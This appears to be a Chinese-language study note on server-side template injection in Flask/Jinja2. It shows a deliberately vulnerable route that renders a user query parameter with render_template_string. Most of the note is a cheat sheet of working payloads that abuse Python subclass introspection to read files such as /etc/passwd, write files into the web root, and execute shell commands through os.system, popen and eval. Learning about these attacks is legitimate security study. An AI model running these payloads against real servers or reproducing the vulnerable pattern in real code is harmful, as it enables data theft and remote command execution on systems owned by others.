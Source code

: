 不仅可以xss，还可以进行其他攻击

###### SSTI文件读取/命令执行

```python
@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)
```

构造参数{{2*4}}，返回执行结果8，**可以看到表达式被执行了。**

那么可以**通过python的对象的继承、利用可用子类的方法来一步步实现文件读取和命令执行，具体看参考链接**

利用：【<span style="background:#FF9999;">因为位置可能不同，所以用if查找</span>】

- ==读文件：==

```
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}   //py2
还有:
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

object.__subclasses__()[40](r'C:\1.php').read()

更保险：
 {% for c in [].__class__.__base__.__subclasses__() %}{% if
 c.__name__=='catch_warnings' %}{{
 c.__init__.__globals__['__builtins__'].open('在这里输入文件名', 'r').read()
 }}{% endif %}{% endfor %} 		//py3
```

- ==写文件==

```
//写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')
```

- ==命令执行==

```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
}}
还有：
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

{% for c in [].__class__.__base__.__subclasses__() %}{% if
c.__name__=='catch_warnings' %}{{
c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}  	//py3
```
